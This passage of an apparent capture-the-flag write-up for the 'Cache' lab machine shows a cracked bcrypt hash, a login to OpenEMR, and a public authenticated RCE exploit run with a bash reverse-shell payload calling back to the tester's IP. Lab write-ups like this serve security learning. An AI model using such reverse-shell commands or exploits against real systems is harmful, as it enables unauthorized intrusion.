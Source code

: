 After a few seconds, hashcat completed and returned the following:  `$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx`. Success! We now had another username, password combination to use. To confirm that the creds worked, I logged in to the HMS application and was presented with the following screen:
<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Cache/img12.png"  style="width: 100%" />
</p>

If you recall, there were a few authenticated exploits for the OpenEMR solution which were identified by searchsploit. I decided to make use of the OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution exploit -- 45161.py, which was run using the following command:

```python
python HMS_RCE.py -h http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.99/1234 0>&1'
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Cache/img13.png"  style="width: 80%" />
</p>

<details></details>

## Lateral Movement using ash
